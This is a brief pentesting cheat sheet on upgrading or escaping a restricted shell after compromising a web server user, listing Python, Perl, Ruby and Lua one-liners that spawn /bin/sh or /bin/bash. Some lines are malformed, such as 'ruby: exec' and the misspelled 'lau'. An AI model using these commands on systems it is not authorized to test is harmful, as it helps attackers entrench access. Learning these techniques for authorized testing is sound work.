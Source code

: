 ```yaml
---
title: Spawning a TTY Shell
author: Udesh
date: 2020-05-16
categories: [Pentesting]
---
```

## Spawning a TTY Shell - Break out of Jail or limited shell

You should almost always upgrade your shell after taking control of an apache or www user. you may encounter limited shells that use rbash and only allow you to execute a single command per session. you can overcome this by executing an SSH shell to your localhost.

**Python:**
```shell
python -c 'import pty; pty.spawn("/bin/sh")'
```
**Perl:**
```perl
perl -e 'exec "/bin/sh";'
```
**ruby:**
```ruby
ruby: exec "/bin/sh"
```
**lau:**
```lua
lua: os.execute('/bin/sh')
```

------------
Other command:

    echo os.system('/bin/bash')
	/bin/sh -i
